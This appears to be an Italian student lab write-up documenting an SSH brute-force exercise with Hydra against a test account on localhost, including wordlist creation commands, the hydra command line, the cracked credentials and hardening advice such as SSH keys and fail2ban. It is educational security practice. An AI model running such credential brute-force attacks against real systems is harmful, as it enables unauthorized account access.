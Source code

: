 # Progetto S6/L5: Brute Force SSH con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. Fare pratica con lo strumento **Hydra** per effettuare un attacco di brute force sull'autenticazione SSH.
2. Configurare un servizio SSH, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`
	 
![SSHcredfound](./SSHcredfound.png)

### **4. Risoluzione degli Errori Riscontrati**

Durante il test iniziale con wordlist più grandi, abbiamo riscontrato errori dovuti a **Troppi tentativi simultanei**: 
- Risolto riducendo i thread con `-t 1`.

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. L'efficacia degli attacchi brute force con dizionari mirati.
2. La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.

---

## **File Utilizzati**

- `usernames.txt`: Wordlist per i nomi utente.
- `passwords.txt`: Wordlist per le password.

Questi file sono inclusi nella directory del progetto per eventuali test futuri.

---

## **Comandi Chiave Riassunti**

1. Creazione dell'utente:
   ```bash
   sudo adduser test_user
   ```

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Esecuzione di Hydra:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   
